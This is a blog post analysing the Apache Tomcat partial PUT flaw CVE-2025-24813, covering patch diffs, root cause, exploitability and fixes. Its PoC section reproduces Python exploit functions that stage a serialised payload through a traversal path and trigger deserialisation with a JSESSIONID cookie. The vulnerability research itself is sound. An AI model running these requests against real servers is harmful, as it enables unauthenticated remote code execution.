





# Summary

> Partial PUTs plus predictable temp-name mapping or traversal can let attackers stage files (.session) and, when file-based session persistence is enabled, force Tomcat to load them via JSESSIONID; with unsafe deserialisation and a gadget chain this can yield unauthenticated RCE.

-   **CVE:** CVE-2025-24813
-   **Product:** Apache Tomcat (`DefaultServlet`)
-   **Vulnerability:** Potential RCE and/or information disclosure and/or information corruption with partial PUT
-   **Affected Versions:** 11.0.0-M1 through 11.0.2; from 10.1.0-M1 through 10.1.34; from 9.0.0-M1 through 9.0.98; (EOL) 8.5.0 through 8.5.100 and possibly earlier unsupported versions
-   **Fixed In:** 9.0.99 / 10.1.35 / 11.0.3
-   **CVSS Severity:** 9.8 (critical)
-   **CVSS Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
-   **Required Privilege:** None (remote, unauthenticated)
-   **NVD Published:** March 10, 2025

When Tomcat's `DefaultServlet` is configured with writes enabled and it allows partial PUT requests, the servlet can create predictable temporary files derived from request paths. Under certain non-default configurations (notably Tomcat's file-based session persistence using `PersistentManager` + `FileStore`) an attacker can stage a `.session` file and then trigger Tomcat to load and deserialise it, resulting in unauthenticated RCE in environments with a suitable gadget chain. Path-equivalence / predictable temp filenames may also be used for information disclosure.

# Introduction

In the [last post](https://book.cryptocat.me/blog/research/cve/cve_2025_54376), we investigated a basic auth bypass in a websocket endpoint in Hoverfly. Today, we'll pick a slightly older (March 2025) but more complex vulnerability in Apache Tomcat ([CVE-2025-24813](https://nvd.nist.gov/vuln/detail/CVE-2025-24813)) that will require different tools and methods during the patch diffing and analysis process. I noticed there is a [public PoC](https://github.com/absholi7ly/POC-CVE-2025-24813) listed in the advisory but I'll intentionally avoid looking at it or any technical analysis from other researchers until the end, at which point I'll correct any errors.

# CVE-2025-24813: Tomcat DefaultServlet Partial PUT

March 10, 2025: Apache released [an advisory](https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq) containing essential information about the vulnerability. Note that subsequent researcher analyses (e.g. [Rapid7](https://www.rapid7.com/blog/post/2025/03/19/etr-apache-tomcat-cve-2025-24813-what-you-need-to-know/), [Unit42](https://unit42.paloaltonetworks.com/apache-cve-2025-24813-cve-2025-27636-cve-2025-29891/), [ScrapCo](https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html)) found that some of preconditions listed are _not strictly required_ for exploitation in practice, particularly the parent-path / filename-knowledge requirement which is only needed for information disclosure.

**Key exploitation prerequisites (for all attacks):**

-   `DefaultServlet` configured with writes enabled (disabled by default).
-   Partial PUT support enabled (enabled by default).

**Additional prerequisites for RCE:**

-   Tomcat uses file-based session persistence (disabled by default).
-   The application includes a deserialisation gadget chain (common).

**Additional prerequisites for information disclosure (path-equivalence):**

-   Attacker-controlled public upload path is a parent of a security-sensitive upload path.
-   Attacker knows the target filenames.

**Impact / remediation:**

-   **Impact:** information disclosure, file content injection/corruption, and possible unauthenticated RCE.
-   **Fix:** upgrade to Tomcat 9.0.99 / 10.1.35 / 11.0.3 or later.
-   **Mitigations:** if you cannot upgrade immediately: disable `DefaultServlet` writes, disable partial PUT support, and/or disable file-based session persistence.

## Background

The advisory refers to several pieces of functionality that we should understand the basics of before jumping into the patch diff.

### Partial PUT

Partial PUT is an HTTP PUT request that updates only part of a resource using a `Content-Range` header (byte offsets). Servers that support it assemble fragments into the final file; if they accept fragments without strict header validation or write directly into predictable filenames, an attacker can incrementally place controlled bytes, overwrite file segments, or bypass checks.

### Session persistence

Tomcat can persist HTTP sessions to disk (`PersistentManager` + `FileStore`) so session state survives restarts. When enabled, Tomcat serialises every `HttpSession` attribute to per-session files in the configured store (commonly under the work/context area), and it reloads this cached data when the server restarts. If an attacker can place controlled bytes into that namespace and cause Tomcat to restore the file, those bytes will be deserialised, which leads to RCE if a gadget chain exists on the classpath. It just so happens that these _serialised sessions are stored in the same folder used by the partial PUT functionality_, enabling collisions.

### Path equivalence

Path equivalence is when different request paths normalise to the same filesystem object (eg. `/a/../b` -> `/b`, or server code mapping `/x/y` -> `.x.y`). That filename collision lets attackers reach or overwrite files they shouldn't or place files where another component will later read them.

## Patch Diffing

We'll start by grabbing a copy of the vulnerable/fixed Tomcat packages, and unpacking them.

```bash
curl -LO "https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.98/bin/apache-tomcat-9.0.98.tar.gz"
curl -LO "https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.99/bin/apache-tomcat-9.0.99.tar.gz"
mkdir old new
tar -xzf apache-tomcat-9.0.98.tar.gz -C old --strip-components=1
tar -xzf apache-tomcat-9.0.99.tar.gz -C new --strip-components=1
```

Let's focus on the files that have changed.

```bash
find old -type f -printf '%P\n' | sort > old_files.txt
find new -type f -printf '%P\n' | sort > new_files.txt
comm -12 old_files.txt new_files.txt > common_files.txt
while read -r f; do cmp -s "old/$f" "new/$f" || echo "$f"; done < common_files.txt > changed_files.txt
comm -3 old_files.txt new_files.txt >> changed_files.txt
sort -u changed_files.txt -o changed_files.txt
```

Then narrow down files of interest with some keywords that are relevant to the vulnerability.

```bash
grep -E "DefaultServlet|DefaultServlet.java|session|Session|Manager|persist|partial|put|HttpPut|ObjectInputStream|deserialize|deserial|serialize|writeObject|servlet|catalina" changed_files.txt | sort -u

bin/catalina.bat
bin/catalina.sh
lib/catalina-ant.jar
lib/catalina-ha.jar
lib/catalina.jar
lib/catalina-ssi.jar
lib/catalina-storeconfig.jar
lib/catalina-tribes.jar
lib/servlet-api.jar
webapps/docs/config/sessionidgenerator.html
webapps/docs/default-servlet.html
webapps/manager/WEB-INF/jsp/sessionDetail.jsp
webapps/manager/WEB-INF/jsp/sessionsList.jsp
```

Another option is to diff the two folders using a tool like [Meld](https://gnome.pages.gitlab.gnome.org/meld/) which provides a UI filebrowser. Here's the new/changed files in the vulnerable vs patched versions.



We cannot compare the compiled JAR files, but we can compare plaintext, e.g. `web.xml`



The comment is referring to `allowPartialPut` which is interesting as we know the CVE is a partial PUT vulnerability. The original version asks whether the `Range` header should be treated as a partial PUT while the patched version specifically states `Content-Range`, removing any ambiguity.

Write-enablement is controlled via the `DefaultServlet` `init-param` in the app’s `web.xml/context` (disabled by default). There is a comment referring to this `readonly` configuration:

```xml
<!--   readonly            Is this context "read only", so HTTP           -->
<!--                       commands like PUT and DELETE are               -->
<!--                       rejected?  [true]                              -->
```

However, the server is read-only by default, as we can see from the `[true]` value in the comment. In order to make the server writable, the following parameter would need to included:

```xml
<init-param>
<param-name>readonly</param-name>
<param-value>false</param-value>
</init-param>
```

Most of the results are JAR files and we'll want to decompile them with `jadx` or `jd-gui` before diffing. We already listed the changed files earlier and `catalina.jar` is known to contain Tomcat's implementations (e.g. `DefaultServlet`) so let's start there. After opening the new binary in `jadx-gui`, search for `allowPartialPut|DefaultServlet` with the regex box ticked ✅



There are some promising results. If we open the `org.apache.catalina.servlets.DefaultServlet` and search (`ctrl + F`) for `allowPartialPut`, we will quickly find a function (`parseContentRange`) that ties back to the `Range` vs `Content-Range` headers in the `web.xml` comment. After we diff the codebase, we might begin our analysis there.

```java
protected Range parseContentRange(HttpServletRequest request, HttpServletResponse response) throws IOException {
    String contentRangeHeader = request.getHeader("Content-Range");
    if (contentRangeHeader == null) {
        return IGNORE;
    }
    if (!this.allowPartialPut) {
        response.sendError((int) WebdavStatus.SC_BAD_REQUEST);
        return null;
    }
    ContentRange contentRange = ContentRange.parse(new StringReader(contentRangeHeader));
    if (contentRange == null) {
        response.sendError((int) WebdavStatus.SC_BAD_REQUEST);
        return null;
    } else if (!"bytes".equals(contentRange.getUnits())) {
        response.sendError((int) WebdavStatus.SC_BAD_REQUEST);
        return null;
    } else {
        Range range = new Range();
        range.start = contentRange.getStart();
        range.end = contentRange.getEnd();
        range.length = contentRange.getLength();
        return range;
    }
}
```

Go to `File -> Save All` (or `ctrl + S`) and create a new folder `catalina_new`. Repeat the process for `catalina_old`, then compare the directories with Meld.

")

Good thing we checked the patch diff because it turns out the `parseContentRange` function did not change at all 😅



That said we were looking in the right direction because right below is a `parseRange` function which has changed significantly.



Depending on preference, we might also like to save the two functions and diff in the terminal. I've added some numbered comments which are explained below:

```diff
diff -u old.java new.java
--- old.java	2025-10-06 17:46:54.831343014 +0100
+++ new.java	2025-10-06 17:46:39.724676905 +0100
@@ -1,32 +1,21 @@
 protected ArrayList<Range> parseRange(HttpServletRequest request, HttpServletResponse response, WebResource resource) throws IOException {
-    if (!org.apache.catalina.filters.Constants.METHOD_GET.equals(request.getMethod())) {
+    String rangeHeader = request.getHeader("Range");
+    if (rangeHeader == null) { // [1]
         return FULL;
     }
-    String headerValue = request.getHeader("If-Range"); // [2]
-    if (headerValue != null) {
-        long headerValueTime = -1;
-        try {
-            headerValueTime = request.getDateHeader("If-Range");
-        } catch (IllegalArgumentException e) {
-        }
-        String eTag = generateETag(resource);
-        long lastModified = resource.getLastModified();
-        if (headerValueTime == -1) {
-            if (!eTag.equals(headerValue.trim())) {
-                return FULL;
-            }
-        } else if (Math.abs(lastModified - headerValueTime) > 1000) {
-            return FULL;
+    if (!org.apache.catalina.filters.Constants.METHOD_GET.equals(request.getMethod()) || !isRangeRequestsSupported()) { // [2]
+        return FULL;
+    }
+    if (!checkIfRange(request, response, resource)) { // [3]
+        if (response.isCommitted()) { // [4]
+            return null;
         }
+        return FULL;
     }
     long fileLength = resource.getContentLength();
     if (fileLength == 0) {
         return FULL;
     }
-    String rangeHeader = request.getHeader("Range");
-    if (rangeHeader == null) {
-        return FULL;
-    }
     Ranges ranges = Ranges.parse(new StringReader(rangeHeader));
     if (ranges == null) {
         response.addHeader("Content-Range", "bytes */" + fileLength);
```

1. The null check for the `rangeHeader` has moved to the beginning of the function - this prevents running the partial-range logic for non-range requests.
2. A new `!isRangeRequestsSupported()` check was added - although the function appears to always return true.
3. The `If-Range` code block was replaced with `checkIfRange` function - we'll review the code shortly to see how the `If-Range` parsing logic changed.
4. If the `checkIfRange` function has already handled the request (e.g. redirected or sent an error), the servlet stops processing immediately to avoid double processing.

As mentioned in \[3\] the `If-Range` validation was encapsulated in a new function. Here's the function with some comments added:

```java
protected boolean checkIfRange(HttpServletRequest request, HttpServletResponse response, WebResource resource) throws IOException {
    String resourceETag = generateETag(resource);
    long resourceLastModified = resource.getLastModified();
    Enumeration<String> headerEnum = request.getHeaders("If-Range");
    // [1] If no If-Range header present, allow range handling to proceed
    if (!headerEnum.hasMoreElements()) {
        return true;
    }
    String headerValue = headerEnum.nextElement();
    // [2] Reject multiple If-Range headers (ambiguous/malicious); send 400
    if (headerEnum.hasMoreElements()) {
        response.sendError((int) WebdavStatus.SC_BAD_REQUEST);
        return false;
    }
    long headerValueTime = -1;
    try {
        headerValueTime = request.getDateHeader("If-Range");
    } catch (IllegalArgumentException e) {
    }
    // [3] If header contains a date, only allow range when resource last-modified is within 1s
    if (headerValueTime != -1) {
        return resourceLastModified >= headerValueTime && resourceLastModified < headerValueTime + 1000;
    }
    // [4] If header is an ETag: validate quoted syntax; malformed -> 400
    else if (headerValue.length() < 2 || headerValue.charAt(0) != '\"' || headerValue.charAt(headerValue.length() - 1) != '\"' || headerValue.indexOf(34, 1) != headerValue.length() - 1) {
        response.sendError((int) WebdavStatus.SC_BAD_REQUEST);
        return false;
    }
    // [5] Allow only on exact quoted-ETag match
    else if (resourceETag != null && resourceETag.startsWith("\"") && resourceETag.equals(headerValue.trim())) {
        return true;
    } else {
        // [6] Deny in all other cases
        return false;
    }
}
```

TLDR; it returns `true` when `If-Range` is absent, rejects malformed or duplicated `If-Range` headers, allows a date-based match within 1s, and allows a quoted-ETag match - otherwise it responds `400` or returns `false`.

According to the advisory, attackers can write into sensitive files and potentially obtain RCE, so there must be more to this exploit. There's another section of the `DefaultServlet.java` file with some changed functions that immediately stand out. The first is `doPut`:

```diff
diff -u old.java new.java
--- old.java	2025-10-06 21:14:54.777554842 +0100
+++ new.java	2025-10-06 21:15:01.734221266 +0100
@@ -1,22 +1,23 @@
 public void doPut(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
     InputStream resourceInputStream;
-    if (this.readOnly) {
+    if (isReadOnly()) { // [1] If the server is not writable, return (this would have stopped original exploit)
         sendNotAllowed(req, resp);
         return;
     }
     String path = getRelativePath(req);
     WebResource resource = this.resources.getResource(path);
     Range range = parseContentRange(req, resp);
-    if (range == null) { // If no Content-Range header, return (this would have stopped original exploit)
+    if (range == null || !checkIfHeaders(req, resp, resource)) { // [2] Add header validation (including If-Range changes seen earlier), return if it fails
         return;
     }
     InputStream resourceInputStream2 = null;
+    File tempContentFile = null; // [3] Temp file holder
     try {
         if (range == IGNORE) {
             resourceInputStream = req.getInputStream();
         } else {
-            File contentFile = executePartialPut(req, range, path);
-            resourceInputStream = new FileInputStream(contentFile);
+            tempContentFile = executePartialPut(req, range, path); // [3] Write to temp file first
+            resourceInputStream = new FileInputStream(tempContentFile);
         }
         if (this.resources.write(path, resourceInputStream, true)) {
             if (resource.exists()) {
@@ -36,6 +37,9 @@
             } catch (IOException e2) {
             }
         }
+        if (tempContentFile != null) { // [4] Cleanup temp on success
+            tempContentFile.delete();
+        }
     } catch (Throwable th) {
         if (0 != 0) {
             try {
@@ -43,6 +47,9 @@
             } catch (IOException e3) {
             }
         }
+        if (0 != 0) { // [4] Cleanup temp on error path
+            tempContentFile.delete();
+        }
         throw th;
     }
 }
```

The patch moves partial PUT writes into a temp file and only writes the _completed_ contents into the resource, before cleaning up. Writing to a temp file (and deleting/moving it atomically) prevents in-place partial overwrites. The second relevant change is `executePartialPut`:

```diff
diff -u old.java new.java
--- old.java	2025-10-06 21:16:28.807551460 +0100
+++ new.java	2025-10-06 21:16:21.000885064 +0100
@@ -1,10 +1,6 @@
 protected File executePartialPut(HttpServletRequest req, Range range, String path) throws IOException {
     File tempDir = (File) getServletContext().getAttribute("javax.servlet.context.tempdir");
-    String convertedResourcePath = path.replace('/', '.'); // [1] Stop replacing forward slashes (`/`) in the path with dots (`.`)
-    File contentFile = new File(tempDir, convertedResourcePath);
-    if (contentFile.createNewFile()) {
-        contentFile.deleteOnExit();
-    }
+    File contentFile = File.createTempFile("put-part-", null, tempDir); // [2] Unpredictable temp filename
     RandomAccessFile randAccessContentFile = new RandomAccessFile(contentFile, "rw");
     try {
         WebResource oldResource = this.resources.getResource(path);

```

The patch stops mapping request paths to predictable temp filenames (the old `path.replace('/', '.')` behaviour) and instead writes partial uploads to unpredictable temp files via `File.createTempFile()`. The servlet assembles content in the temp file and atomically commits the finished file, eliminating the in-place partial-write primitive and reducing TOCTOU risk.

Before the fix, predictable dot-prefixed temp names (e.g. `/some/path` -> `.some.path`) could collide with Tomcat's file-based session files. An attacker able to stage a `.filename.session` file in that namespace could later force Tomcat to load it (e.g. by supplying `Cookie: JSESSIONID=.filename`), triggering deserialisation of the staged data.

Note: the vendor emphasised path-equivalence, but several researchers show path-equivalence is not required for RCE; it primarily matters for information disclosure.

## Root Cause Analysis

-   `DefaultServlet` supports partial PUT (Content-Range) but accepts uploads only when configured writable (`readonly=false`); that is a separate setting from session persistence.
-   The vulnerable `DefaultServlet` maps request paths to predictable on-disk names (e.g. `path.replace('/', '.')`), which permits namespace collisions.
-   Partial PUT handling writes fragments directly into those names without atomic staging (no unpredictable temp file + rename), so attacker bytes can appear in a target file mid-write.
-   File-based session persistence (`PersistentManager` + `FileStore`) is a separate, non-default feature that writes Java-serialised session files into the same namespace; when combined with the primitives above and a deserialisation gadget on the classpath, a staged file becomes an escalation sink.
-   In short: the bug is the combination of (1) an upload/write primitive, (2) a collision or direct-write into a file the server will read, and (3) a deserialisation sink. Path-equivalence is one way to get (2), but not the only one (e.g. session persistence is more reliable).

## Exploitability

A [public PoC](https://github.com/absholi7ly/POC-CVE-2025-24813) exists. Exploitation requires no authentication but does require specific server configuration.

There are two meaningful attack classes to consider:

**1. RCE via serialised session files (stage + trigger)**

-   **Preconditions:** write-enabled `DefaultServlet` + partial PUT support, Tomcat configured to persist sessions to individual files (`PersistentManager` + `FileStore`) _and_ application contains a deserialisation gadget chain.
-   **Result:** staging a `.session` file via partial PUT and triggering Tomcat to load/deserialise it using a `JSESSIONID=.[filename]` cookie can yield RCE. This configuration is uncommon (non-default) but practical where operators have enabled `FileStore` or packaging co-locates work and session directories.

**2. File injection / information disclosure (path-equivalence)**

-   **Preconditions:** write-enabled `DefaultServlet` + partial PUT support + a predictable temp-filename mapping that causes request-derived temp files to collide with resources an attacker can access.
-   **Result:** disclosure or tampering of resources; requires the predictable filename primitive implemented by earlier Tomcat code.

Public telemetry ([Unit42](https://unit42.paloaltonetworks.com/apache-cve-2025-24813-cve-2025-27636-cve-2025-29891/)) shows many scans and probes (Nuclei templates were widely used), but confirmed successful compromises of production systems appear uncommon. That's likely because several non-default configuration steps (write-enabled `DefaultServlet` and file-based session persistence) are required which was found to be uncommon in a large GitHub search ([Rapid7](https://www.rapid7.com/blog/post/2025/03/19/etr-apache-tomcat-cve-2025-24813-what-you-need-to-know/)).

### PoC

Rather than re-creating the wheel, let's review the [PoC](https://github.com/absholi7ly/POC-CVE-2025-24813) referenced in the NVD advisory; the author already outlined the requirements for exploitation:

#### Prerequisites for Successful Exploitation

1. **Apache Tomcat Version**: The target must be running a vulnerable version of Apache Tomcat.
2. **Writable Directory**: The server must allow PUT requests
3. **Deserialization Trigger**: The server must process the uploaded session file (e.g., via a GET request to `/index.jsp`) and trigger deserialization of the payload.
4. **Java Environment**: The attacker's machine must have Java installed to generate payloads using `ysoserial` or compile Java-based payloads.
5. **ysoserial (Optional)**: If using the `ysoserial` payload type, the `ysoserial.jar` file must be available locally.

#### Analysis

The `check_writable_servlet` makes an initial PUT request to write "test data" to a file called `check.txt`, with the server responding 200 OK if it's writable. Note that it specifies a `Content-Length` of "10000" and `Content-Range` of "bytes 0-1000/1200", which exceeds the provided data. Other PoCs do not follow the same approach - perhaps the intention is to force partial-behaviour in some instances.

```python
def check_writable_servlet(target_url, host, port, verify_ssl=True):
    # Quick check whether the target accepts PUT + content-range (writability test)
    check_file = f"{target_url}/check.txt"
    try:
        response = requests.put(
            check_file,
            headers={
                "Host": f"{host}:{port}",
                "Content-Length": "10000",
                "Content-Range": "bytes 0-1000/1200"
            },
            data="testdata",
            timeout=10,
            verify=verify_ssl
        )
        if response.status_code in [200, 201]:
            print(f"[+] Server is writable via PUT: {check_file}")
            return True
        else:
            print(f"[-] Server is not writable (HTTP {response.status_code})")
            return False
    except requests.RequestException as e:
        print(f"[-] Error during check: {str(e)}")
        return False
```

If the server is writable a serialised payload will be generated with [ysoserial](https://github.com/frohoff/ysoserial) and uploaded using the same technique (paired with the path equivalence - not required according to other PoCs). Following the successful upload, a GET request is made using the \[attacker-controlled\] session ID which triggers the deserialisation.

```python
def upload_and_verify_payload(target_url, host, port, session_id, payload_file, verify_ssl=True):
    # Upload the payload to a traversal-style path and check if server later errors on load
    exploit_url = f"{target_url}/uploads/../sessions/{session_id}.session" # [1]
    try:
        with open(payload_file, "rb") as f:
            put_response = requests.put(
                exploit_url,
                headers={
                    "Host": f"{host}:{port}",
                    "Content-Length": "10000",
                    "Content-Range": "bytes 0-1000/1200" # [2]
                },
                data=f.read(),
                timeout=10,
                verify=verify_ssl
            )
        # Treats HTTP 409 as expected upload response and then triggers session load
        if put_response.status_code == 409:
            print(
                f"[+] Payload uploaded with status 409 (Conflict): {exploit_url}")
            get_response = requests.get(
                target_url,
                headers={"Cookie": "JSESSIONID=absholi7ly"},
                timeout=10,
                verify=verify_ssl
            )
            # Considers HTTP 500 on GET as evidence of deserialization/exec
            if get_response.status_code == 500:
                print(
                    f"[+] Exploit succeeded! Server returned 500 after deserialization.")
                return True
            else:
                print(
                    f"[-] Exploit failed. GET request returned HTTP {get_response.status_code}")
                return False
        else:
            print(
                f"[-] Payload upload failed: {exploit_url} (HTTP {put_response.status_code})")
            return False
    except requests.RequestException as e:
        print(f"[-] Error during upload/verification: {str(e)}")
        return False
    except FileNotFoundError:
        print(f"[-] Payload file not found: {payload_file}")
        return False
```

1. **Partial PUT / byte-range abuse:** issues PUT requests that include a Content-Range header (format: `bytes <start>-<end>/<total>`, e.g. `bytes 0-1000/1200`) while only sending a fragment of the declared total. This triggers Tomcat's partial-upload handling (the code path that treats the request as a partial append/patch instead of a full replace) and exercises the server logic for assembling partial content.
2. **Path targeting (traversal / path-equivalence):** uploads to a traversal-style URL (`/uploads/../sessions/<id>.session`) so the effective filesystem target is the session store. Relatedly, path-equivalence flaws occur when different request strings normalise or map to the same filename (e.g. server code that derived predictable temp filenames from request paths like `path.replace('/', '.')`). Both traversal and predictable filename derivation let attacker-controlled bytes be placed where session or other sensitive files live.

Finally, the PoC cleans up, removing the dropped payload.

#### Demo

```bash
python CVE-2025-24813.py <target_url> [options]
```

**Successful Exploit:**

```bash
[+] Server is writable via PUT: http://localhost:8081/check.txt
[*] Session ID: absholi7ly
[+] Payload generated successfully: payload.ser
[+] Payload uploaded with status 409 (Conflict): http://localhost:8081/uploads/../sessions/absholi7ly.session
[+] Exploit succeeded! Server returned 500 after deserialization.
[+] Target http://localhost:8081 is vulnerable to CVE-2025-24813!
[+] Temporary file removed: payload.ser
```

**Failed Exploit:**

```bash
[+] Server is writable via PUT: http://localhost:8081/check.txt
[*] Session ID: absholi7ly
[+] Payload generated successfully: payload.ser
[-] Payload upload failed: http://localhost:8081/uploads/../sessions/absholi7ly.session (HTTP 403)
[-] Target http://localhost:8081 does not appear vulnerable or exploit failed.
[+] Temporary file removed: payload.ser
```

## Remediation

-   **Upgrade** Tomcat to **9.0.99, 10.1.35, 11.0.3** or later.
-   If you cannot upgrade immediately:
    -   disable `DefaultServlet` writes (recommended).
    -   disable partial PUT support (set `allowPartialPut=false`).
    -   disable file-based session persistence or ensure session files are not writable by public upload endpoints.
-   Ensure server-side deserialisation is hardened (use `ObjectInputFilter` or other safe deserialisation patterns) - do not rely solely on mitigations.

# Conclusion

The vulnerability shows how a small oversight in file handling logic can turn into a critical RCE. Tomcat's `DefaultServlet` wasn't inherently unsafe; enabling writes and partial PUTs exposed deeper assumptions about path normalisation and file equivalence. The combination of predictable temp naming and in-place partial writes allowed attackers to inject data into unintended files and with file-based session persistence, that opened the door to remote code execution through deserialisation. The patch mitigates this by enforcing stricter header checks, writing partial content to unpredictable temporary files, and only committing the final write atomically.

I went into the analysis blind (with only the NVD advisory), but after finishing the post I reviewed the [writeups](#references) from some other awesome researchers to get a new perspective and identify any errors or flawed assumptions. Subsequently, I corrected and clarified several parts of this writeup, e.g.

-   The exploitable configuration information provided by the vendor did not align with researchers' findings. There were fewer preconditions/requirements than indicated.
-   According to GitHub search queries and public telemetry, the exploitable configuration was relatively uncommon in the wild.

# References

-   [NVD: CVE-2025-24813](https://nvd.nist.gov/vuln/detail/CVE-2025-24813)
-   [Tomcat Security Advisory](https://tomcat.apache.org/security-9.html)
-   [DefaultServlet Documentation](https://tomcat.apache.org/tomcat-9.0-doc/default-servlet.html)
-   [Public PoC: absholi7ly/POC-CVE-2025-24813](https://github.com/absholi7ly/POC-CVE-2025-24813)
-   [ScrapCo: Analysis of CVE-2025-24813 — Apache Tomcat Path-Equivalence RCE](https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html)
-   [Rapid7: Apache Tomcat CVE-2025-24813 Analysis](https://www.rapid7.com/blog/post/2025/03/19/etr-apache-tomcat-cve-2025-24813-what-you-need-to-know/)
